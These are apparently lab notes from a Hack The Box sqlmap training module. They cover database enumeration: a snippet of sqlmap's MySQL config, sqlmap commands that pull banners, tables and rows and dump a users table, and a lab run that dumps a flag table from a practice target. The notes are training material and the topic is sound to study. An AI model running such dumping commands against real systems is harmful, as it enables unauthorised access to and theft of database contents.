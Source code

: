 # Database Enumeration

Example of MYSQL config in sqlmap :

<?xml version="1.0" encoding="UTF-8"?>

<root>
    <dbms value="MySQL">
        <!-- http://dba.fyicenter.com/faq/mysql/Difference-between-CHAR-and-NCHAR.html -->
        <cast query="CAST(%s AS NCHAR)"/>
        <length query="CHAR_LENGTH(%s)"/>
        <isnull query="IFNULL(%s,' ')"/>
...SNIP...
        <banner query="VERSION()"/>


So if we want to retrieve the "banner" (switch --banner) for the target based on MySQL DBMS, the VERSION() query will be used for such purpose.

Basic DB Data Enumeration
sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba

Table Enumeration
sqlmap -u "http://www.example.com/?id=1" --tables -D testdb
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb

Table/Row Enumeration
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --start=2 --stop=3

Conditional Enumeration
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"

Full DB Enumeration
--dump-all
--exclude-sysdbs

## LAB

94.237.62.195:57826

sqlmap -u 'http://94.237.62.195:57826/case1.php?id=1' --tables -D testdb

Database: testdb
[2 tables]
+-------+
| flag1 |
| users |
+-------+

sqlmap -u 'http://94.237.62.195:57826/case1.php?id=1' --dump -T flag1 -D testdb

Database: testdb
Table: flag1
[1 entry]
+----+-----------------------------------------------------+
| id | content                                             |
+----+-----------------------------------------------------+
| 1  | HTB{c0n6r475_y0u_kn0w_h0w_70_run_b451c_5qlm4p_5c4n} |
+----+-----------------------------------------------------+
